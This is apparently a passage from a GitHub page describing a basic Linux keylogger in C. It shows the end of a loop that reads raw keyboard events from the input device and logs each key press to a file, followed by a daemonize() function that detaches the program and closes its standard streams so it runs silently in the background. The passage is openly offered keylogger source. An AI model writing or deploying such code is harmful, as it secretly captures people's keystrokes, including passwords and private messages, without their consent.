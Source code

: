 ```
    exit(EXIT_FAILURE);
  }
  printf("Reading from %s\n",kbd_path);
  free(kbd_path); // free some memory
  while (1)
  {
    read(fd, &ev, sizeof(struct input_event)); //read from keyboard
    if(ev.type == 1)
      log_in_file(ev); //log the event
  }
  return 0;
}
```

Here, I am using `daemonize` funtion which is defined in `./utils/daemonize.c` and imported in `basic_keylogger.h`.

CODE:- `daemonize.c`

```
int daemonize()
{
    pid_t pid, sid;

    /* Fork off the parent process */
    pid = fork();
    if (pid < 0) {
        exit(EXIT_FAILURE);
    }
    /* If we got a good PID, then
        we can exit the parent process. */
    if (pid > 0) { // Child can continue to run even after the parent has finished executing
        exit(EXIT_SUCCESS);
    }

    /* Change the file mode mask */
    umask(0);

    /* Open any logs here */

    /* Create a new SID for the child process */
    sid = setsid();
    if (sid < 0) {
        /* Log the failure */
        exit(EXIT_FAILURE);
    }

    /* Change the current working directory */
    if ((chdir("/")) < 0) {
        /* Log the failure */
        exit(EXIT_FAILURE);
    }

    /* Close out the standard file descriptors */
    //Because daemons generally dont interact directly with user so there is no need of keeping these open
    close(STDIN_FILENO);
    close(STDOUT_FILENO);
    close(STDERR_FILENO);

    return(pid);
}
```
